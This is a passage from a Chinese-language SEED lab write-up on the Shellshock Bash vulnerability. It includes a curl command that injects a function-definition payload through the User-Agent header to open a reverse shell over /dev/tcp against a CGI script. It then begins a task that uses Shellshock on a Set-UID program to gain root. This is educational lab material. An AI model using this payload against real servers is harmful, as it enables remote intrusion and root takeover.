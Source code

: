 攻击代码

``` BASH
curl -A "() { echo 1; };echo;/bin/bash -i > /dev/tcp/192.168.190.135/9090 0>&1 2>&1" http://192.168.190.136/cgi-bin/myprog.cgi
```

使用tcp连接将bash反弹出来。执行命令后进入等待状态

![image-20220326110308084](ShellShock/image-20220326110308084.png)

在另一个bash中连接该端口，获得bash

实验原理：当一个shell程序接受环境变量的时候，会检测环境变量的值是否以：”() {“开头，一旦发现这样的字符串，Bash就会用=来替换空格，把环境变量替换成函数定义

但在shell的源代码中，使用parse_and_execute()函数来解析指令，但是如果转化的结果包含多条用“；”分开的shell命令，那么这个函数就会执行每一条指令。

## 任务 2：攻击集 UID 程序

> Task 2: Attack Set-UID programs。在这个任务中，我们使用Shellshock来攻击Set-UID程序，目标是获得root权限。在攻击之前，我们需要首先让 /bin/sh 指向 /bin/bash（默认情况下，它指向 SEED Ubuntu 12.04 VM 中的 /bin/dash）。您可以使用以下命令执行此操作：

```SH
$ sudo ln -sf /bin/bash /bin/sh
```

```
ls -l /bin/sh
```

![image-20220326110756609](ShellShock/image-20220326110756609.png)

### Task 2A

> 下面的程序是一个Set-UID程序，它只运行"`/bin/ls -l`"命令。 请编译此代码，使其成为Set-UID程序，并使root成为其所有者。 如我们所知，`system()`函数将调用 "`/bin/sh -c`" 来运行给定的命令，这意味着将调用 /bin/bash。你能使用Shellshock漏洞来获得root权限吗？
